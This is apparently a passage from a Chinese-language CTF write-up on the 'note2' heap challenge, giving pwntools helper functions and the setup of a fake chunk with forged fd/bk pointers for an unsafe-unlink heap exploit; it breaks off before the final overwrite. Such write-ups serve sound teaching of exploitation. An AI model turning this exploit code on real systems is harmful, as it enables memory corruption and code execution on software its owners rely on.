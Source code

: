 #### 基本操作

首先，我們先把note可能的基本操作列舉出來。

```python
p = process('./note2')
note2 = ELF('./note2')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.log_level = 'debug'


def newnote(length, content):
    p.recvuntil('option--->>')
    p.sendline('1')
    p.recvuntil('(less than 128)')
    p.sendline(str(length))
    p.recvuntil('content:')
    p.sendline(content)


def shownote(id):
    p.recvuntil('option--->>')
    p.sendline('2')
    p.recvuntil('note:')
    p.sendline(str(id))


def editnote(id, choice, s):
    p.recvuntil('option--->>')
    p.sendline('3')
    p.recvuntil('note:')
    p.sendline(str(id))
    p.recvuntil('2.append]')
    p.sendline(str(choice))
    p.sendline(s)


def deletenote(id):
    p.recvuntil('option--->>')
    p.sendline('4')
    p.recvuntil('note:')
    p.sendline(str(id))
```

#### 生成三個note

構造三個 chunk，chunk0、chunk1 和 chunk2

```python
# chunk0: a fake chunk
ptr = 0x0000000000602120
fakefd = ptr - 0x18
fakebk = ptr - 0x10
content = 'a' * 8 + p64(0x61) + p64(fakefd) + p64(fakebk) + 'b' * 64 + p64(0x60)
#content = p64(fakefd) + p64(fakebk)
newnote(128, content)
# chunk1: a zero size chunk produce overwrite
newnote(0, 'a' * 8)
# chunk2: a chunk to be overwrited and freed
newnote(0x80, 'b' * 16)
```
